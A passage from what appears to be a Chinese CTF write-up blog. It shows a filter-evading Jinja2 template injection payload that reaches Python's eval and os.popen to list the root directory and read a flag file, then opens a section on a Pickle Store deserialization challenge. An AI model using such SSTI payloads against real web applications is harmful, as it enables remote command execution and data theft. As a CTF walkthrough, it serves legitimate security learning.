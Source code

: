 接下来构造 payload, 尽量拼好所有关键字来尝试执行命令:

```payload
name={%print(''['__cla''ss__']['__m''ro__'][2]['__subc''lasses__']()[59]['__in''it__']['__glo''bals__']['__bu''iltins__']['ev''al']('__imp''ort__("o''s").po''pen("ls /").read()'))%}
```

![20-4.png](20-4.png)

到这里已经基本拿下了; 最终 payload:

```payload
name={%print(''['__cla''ss__']['__m''ro__'][2]['__subc''lasses__']()[59]['__in''it__']['__glo''bals__']['__bu''iltins__']['ev''al']('__imp''ort__("o''s").po''pen("cat /flag_1s_Hera").read()'))%}
```

拿到 `flag{703198a9-25ae-4f4f-8168-c98a6fa5fb14}`

![20-5.png](20-5.png)

## [watevrCTF-2019]Pickle Store

### 反序列化

打开是一个商店界面, 和以前做过的 [cookie_store](https://r4x.top/2025/07/28/buu_wp2/) 这题非常像:
